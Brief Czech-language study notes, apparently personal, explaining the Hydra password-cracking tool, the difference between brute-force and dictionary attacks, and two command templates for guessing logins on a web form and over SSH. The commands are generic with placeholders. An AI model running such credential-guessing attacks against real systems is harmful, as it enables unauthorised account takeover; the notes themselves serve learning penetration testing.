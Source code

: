 hydra = brute force, slovníkový útok

brute force = zkouší všechny možné kombinace

slovníkový = předpřipravený seznam pravděpodobných hesel

hydra pro web formular = hydra -L loginy.txt -P passwords.txt -t 4 ipadresa nebo domena http-post-form "/url:name ve formulari pro jmeno=^USER^& name formulari pro heslo=^PASS^& name ve formulari pro submit button=hodnota ve value:to co to vypise kdyz zadam nespravne heslo"

ssh priklad = hydra -L users.txt -P passwords.txt ssh://ip adresa -t 4

